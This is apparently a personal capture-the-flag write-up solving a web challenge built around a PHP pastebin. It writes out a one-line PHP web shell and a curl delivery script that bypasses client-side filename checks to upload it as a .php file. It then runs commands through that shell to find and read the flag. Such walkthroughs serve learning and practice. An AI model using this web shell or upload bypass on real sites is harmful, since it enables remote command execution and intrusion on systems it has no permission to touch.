 This was another fun one. When you open the page, there is nothing but a simple
Pastebin and a lot of what looked like javascript and Ajax code on the main page.

Passing the information through Burp showed me some information, such as the
fact the server was using the 1.26.1 httpd server and PHP 8.3.7, so we know that
most likely there is some kind of PHP backend so my next question was whether there
was a database service or not.

Looking at the code, I noticed that the request is AJAX and submits to itself. See this
line right here:

xhr.open("POST", "", true);

There is no URL listed, so it will probably be submitted to the current page instead of a
specific endpoint. There is a bunch of code at the bottom of the page source that just
reads out something about being AI and appears to be there as a false lead. I mostly
ignored it because this POST had my attention. My next step was to see how this worked,
I typed in some data, and for a filename, I just gave it text.txt and hit submit.

Error: Only alphanumeric characters are allowed. So, there is some sort of input validation, but it appears to be minimal. I did not test this further as I noticed some things at
this point: It's not tracking my uploads with a user account, session, or even a cookie,
at least from my quick glance, it probably just takes pasted data and tosses it into
a file. I created a test with some quick characters and watched as it was sent back to
the server and that I could open it in the /uploads area of the website.

So I began to craft a php payload that would let me run remote commands, and I'm happy with
the code as I was just going to try and bypass any filter by encoding it with the following
lines:

$payload = '<?php system($_GET["cmd"]); ?>';

/* Encode the payload */
$encoded_payload = base64_encode(gzdeflate($payload));
echo $encoded_payload;

After I hit save, I realized this wouldn't work. Sure, the encoding might get
past input sanitization, but the fact I couldn't save this as a file with a ".php" extension,
the web server will most likely just serve it as plain text instead of executing it for me.

Back to the POST I began to think that this page probably assumes that any submission
to this page is from this page, and nothing in the code appeared to validate whether it
came from this page through a random token or something. So, I wrote a small payload
delivery script that I hoped would send the payload with the ".php" extension and bypass
any filters. It worked, as shown here:

┌──(trhodes㉿kali)-[~/MY_TOOLS/PHP]
└─$ sh bypass_delivery.sh
+ ENDPOINT=https://uscybercombine-s4-scs.chals.io/
+ PAYLOAD_FILE=payload.php
+ + + cat payload.php
sed :a;N;$!ba;s/\n/\\n/g
sed s/"/\\"/g
+ PAYLOAD_CONTENT=<?php system($_GET[\"cmd\"]); ?>
+ printf {"pasteContent": "%s", "pasteFileName": "payload.php"} <?php system($_GET[\"cmd\"]); ?>
+ JSON_DATA={"pasteContent": "<?php system($_GET[\"cmd\"]); ?>", "pasteFileName": "payload.php"}
+ curl -X POST https://uscybercombine-s4-scs.chals.io/ -H Content-Type: application/json -d {"pasteContent": "<?php system($_GET[\"cmd\"]); ?>", "pasteFileName": "payload.php"}
{"message":"Paste saved successfully"}+ exit 0

As you probably noticed, I am using "-x" to print out everything as I always like to be alerted
to errors. Now we can go to uploads/payload.php?cmd=COMMAND to start digging up some
data. You can see the example here where I am getting a uname from my payload after sending it,
I wanted to display the code execution and the payload usage in one image:

<img src="Payload_Delivered0.png">

I began with some simple calls to "ls" and peeked around, but I didn't find anything. There
was a strange file with a bunch of random characters that I thought was just someone's rogue
payload, but nothing to indicate a flag. I almost tried to do a reverse shell until I chose
to issue a find:

https://uscybercombine-s4-scs.chals.io/uploads/payload.php?cmd=find%20/%20-type%20f%20-name%20%27*flag*%27

This printed out the following information (which I added a few newlines to so it stays aligned better):

/proc/sys/kernel/acpi_video_flags /proc/sys/net/ipv4/fib_notify_on_flag_change /proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags /var/www/html/cUnJOEKigRbjhra0KRIW6HGxncR4ekB9/flag.txt /sys/devices/pnp0/00:00/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags /sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags /sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags /sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags /sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags /sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS18/flags /sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS26/flags /sys/devices/platform/serial8250/tty/ttyS16/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags /sys/devices/platform/serial8250/tty/ttyS24/flags
/sys/devices/platform/serial8250/tty/ttyS14/flags /sys/devices/platform/serial8250/tty/ttyS5/flags
/sys/devices/platform/serial8250/tty/ttyS22/flags /sys/devices/platform/serial8250/tty/ttyS12/flags
/sys/devices/platform/serial8250/tty/ttyS30/flags /sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags /sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags /sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags /sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags /sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags /sys/devices/virtual/net/eth1/flags /sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags /sys/module/scsi_mod/parameters/default_dev_flags

Notice that what I thought previously to be a rogue payload from someone else is actually a directory
that holds the flag! So I went to the following URL, and there, on my screen, was the flag:

https://uscybercombine-s4-scs.chals.io/uploads/payload.php?cmd=cat%20../cUnJOEKigRbjhra0KRIW6HGxncR4ekB9/flag.txt

The flag was my only output: SIVBGR{v@lidate_s3rver_s1de}

Fun times. This is my third solo CTF, and I'm having fun with stuff like this. I guess I should add that
I sent one final command, which was to "rm payload.php" so someone else could have the same amount of fun I had
with this challenge.
